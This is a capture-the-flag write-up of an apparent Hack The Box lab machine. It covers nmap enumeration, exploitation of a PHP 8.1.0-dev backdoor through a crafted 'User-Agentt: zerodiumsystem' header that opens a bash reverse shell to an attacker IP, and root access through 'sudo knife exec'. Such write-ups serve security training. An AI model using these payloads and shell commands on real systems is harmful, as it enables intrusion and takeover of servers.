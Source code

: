 ## Phase 1: Enumeration

As always we start off with an nmap scan:


Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there: 
> Checking the source code with ctrl+u doesn't show anything interesting either, however
> After going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:
(image)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 
(image)
I then navigated to home/james and used ```cat user.txt``` to obtain the user flag
(user flag image)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!
(image of sudo-l)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag
(root flag image)

And the box is complete!
